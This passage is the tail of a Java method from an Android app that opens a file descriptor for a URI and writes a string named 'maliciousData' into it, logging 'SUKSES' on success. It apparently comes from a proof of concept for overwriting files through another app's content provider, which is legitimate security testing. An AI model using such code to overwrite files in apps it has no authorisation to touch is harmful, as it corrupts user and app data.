            Log.d(TAG, "ParcelFileDescriptor opened");

            if (pfd != null) {
                Log.d(TAG, "SUKSES");

                FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
                String maliciousData = content;

                fileOutputStream.write(maliciousData.getBytes());
                fileOutputStream.close();

                // Close the ParcelFileDescriptor
                pfd.close();

                // Log success
                Log.d(TAG, "File write successful: " + fileUri.toString());
            } else {
                // Log error if pfd is null
                Log.d(TAG, "Failed to open file descriptor for: " + fileUri.toString());
            }
        } catch (IOException e) {
            // Log the exception in case of failure
            Log.d(TAG, "Error writing to file: " + e.getMessage());
            e.printStackTrace();
        } catch (Exception e) {
            Log.d(TAG, "Unexpected error: " + e.getMessage());
            e.printStackTrace();
        }
    }
}
```

